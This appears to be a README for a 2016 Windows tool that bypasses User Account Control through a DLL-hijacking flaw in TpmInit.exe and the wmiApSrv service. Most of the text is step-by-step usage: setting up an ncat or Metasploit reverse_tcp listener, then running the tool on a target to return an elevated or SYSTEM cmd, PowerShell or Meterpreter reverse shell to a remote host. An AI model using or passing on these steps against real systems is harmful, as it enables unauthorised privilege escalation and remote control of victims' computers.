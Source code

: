  ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
               UAC Suicide Squad v1.1
                      By Cn33liz 2016
A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, a reversed PowerShell session, or a Reversed Meterpreter session. When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem. This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32. This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default. Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges. So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service, and get a SYSTEM shell using our custom DLL :)

Works on:
--------------------------------------------------------------------------------------------------
This version has been succesfully tested on Windows 8.1 x64 and Windows 10 x64 (Version 1511). ====
--------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------
How to use it:

* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACBypass.exe 10.0.0.1 443 msf system
-------------------------------------------------------------------------------------------------
Strong Advice

# Do not use accounts with Administrative privileges for daily computer usage!
